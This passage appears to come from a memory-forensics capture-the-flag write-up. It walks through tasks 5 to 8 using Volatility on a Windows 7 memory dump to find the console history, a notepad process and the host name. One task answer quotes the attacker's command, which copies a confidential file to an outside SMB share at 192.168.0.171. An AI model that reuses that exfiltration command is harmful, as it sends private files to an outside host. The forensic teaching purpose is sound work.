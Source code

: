 For that we run the following command:

`vol.py -f recollection.bin --profile Win7SP1x64 cmdscan > outputs/vol2/cmdscan.txt`

A segment in output file is as follows:

![Upload Attempt](/images/Upload_attempt.jpg)

Answer to task 5:
`type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt`

Task 6:`Following the above command, now tell us if the file was exfiltrated successfully?`

This is where I spent quite a bit of time. Because I found two plugins `cmdscan` and `cmdline` none of which shows the output. Then I realized if we can grab the complete output in console, only then we can understand success/failure of the command. For that the plugin is `consoles`. The full command is the following:
`vol.py -f recollection.bin --profile Win7SP1x64_24000 consoles > outputs/vol2/console.txt`

In the output we get the following result:

![Upload Failed](/images/upload_failed.jpg)

Answer to task 6: `No`

Task 7:
`The attacker tried to create a readme file. What was the full path of the file?`

To get answer to this, we're going to assume this was attempted with any of the running processes, otherwise we can't get the information from memory dump. We'll look for the processes running. For that the command will be:

`vol.py -f recollection.bin --profile Win7SP1x64 pslist > outputs/vol2/pslist.txt`

On `line 42` of the file we get `notepad.exe` running.

![Notepad Running](/images/notepad.jpg)

Then we dump the memory of pid `3476` using command:

`vol.py -f recollection.bin --profile Win7SP1x64  memdump -p 3476 -D outputs/vol2/notepad`

Then we use `strings` on that dump file and search for `readme` there and we get our result:

`strings outputs/vol2/notepad/3476.dmp | grep -in 'readme'`

![Readme File](/images/readme.jpg)

Answer to task 7:
`C:\Users\Public\Office\readme.txt`

Task 8:
`What was the Host Name of the machine?`

For this I relied on [this tutorial](https://www.youtube.com/watch?v=j-QOUwcLJXg). The TLDR command:

`vol.py -f recollection.bin --profile Win7SP1x64 printkey -o 0xfffff8a000024010 -K "ControlSet001\Control\ComputerName\ComputerName"`
